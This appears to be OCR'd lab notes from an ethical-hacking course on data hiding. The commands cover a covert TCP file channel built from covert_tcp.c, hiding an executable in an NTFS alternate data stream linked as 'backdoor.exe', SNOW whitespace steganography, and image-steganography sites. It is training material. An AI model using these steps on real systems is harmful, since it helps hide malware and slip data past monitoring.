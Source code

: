 1. Covert Communication Channels
	1. wget https://raw.githubusercontent.com/cudeso/security‐tools/master/networktools/covert/covert_tcp.c
		1. sudo apt install gcc
		2. cc ‐o covert_tcp covert_tcp.c
		3. sudo ./covert_tcp ‐dest 192.168.18.144 ‐source 192.168.18.95 ‐source_port 8888 ‐dest_port 9999 ‐server ‐file /home/user/msg1.txt
		4. sudo ./covert_tcp ‐dest 192.168.18.144 ‐source 192.168.18.95 ‐source_port 9999 ‐dest_port 8888 ‐file /home/kali/msg.txt
2. Hide Files Using Alternate Data Streams
	1. type calc.exe >readme.txt:calc.exe
	2. mklink backdoor.exe readme.txt:calc.exe
3. White Space Steganography - Snow
	1. https://darkside.com.au/snow/
	2. SNOW.EXE -C -m "Somename is my name" -p "magic" test.txt test2.txt
	3. SNOW.EXE -C -p "magic" test2.txt
4. Image steganography
	1. https://www.openstego.com/
	2. https://stegonline.georgeom.net/upload

